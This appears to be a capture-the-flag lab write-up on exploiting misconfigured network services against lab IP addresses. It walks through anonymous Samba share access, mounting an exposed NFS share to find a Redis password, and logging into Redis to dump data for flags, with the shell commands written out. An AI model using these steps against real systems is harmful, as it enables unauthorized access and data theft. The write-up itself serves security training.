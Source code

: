 # Exploitation
## Samba - Sensitive data exposure
Connect to the share
```shell
smbclient //10.10.133.88/shares -N
```

We are connected

> [!check] What is the services flag? (services.txt)
> Change to the temp folder and download the file
> ![Pasted image 20241119144337.png](/img/user/attachments/Pasted%20image%2020241119144337.png)

## NFS - Misconfiguration
Mount the NFS share (`/opt/conf`)to our machine (`/tmp/nfs`), the creation of `nfs` folder is required.
```shell
 sudo mount -t nfs 10.10.85.198:/opt/conf /tmp/nfs -nolock
```

Navegate to the folder `/tmp/nfs` on the  local machine
We can  see the a redis folder
![Pasted image 20241119172039.png](/img/user/attachments/Pasted%20image%2020241119172039.png)

Looking for credentials of redis.

We found a password of Redis
![Pasted image 20241119172450.png](/img/user/attachments/Pasted%20image%2020241119172450.png)
## Redis - Dump database
Connect
```shell
redis-cli -h 10.10.85.198 -p 6379
```

Authenticate (Use the password from above)
```shell
AUTH B65******
```
Since we don't have the username, try to connect with the default username `AUTH PASSWORD`
![Pasted image 20241119192021.png](/img/user/attachments/Pasted%20image%2020241119192021.png)
The `ok` means that it works

List databases
```
INFO keyspace
```
There is one database `db0`
![Pasted image 20241119193043.png](/img/user/attachments/Pasted%20image%2020241119193043.png)
Show the content of it and we can get a flag.
> [!check] What is the internal flag? ("internal flag")
> ![Pasted image 20241119193342.png](/img/user/attachments/Pasted%20image%2020241119193342.png)
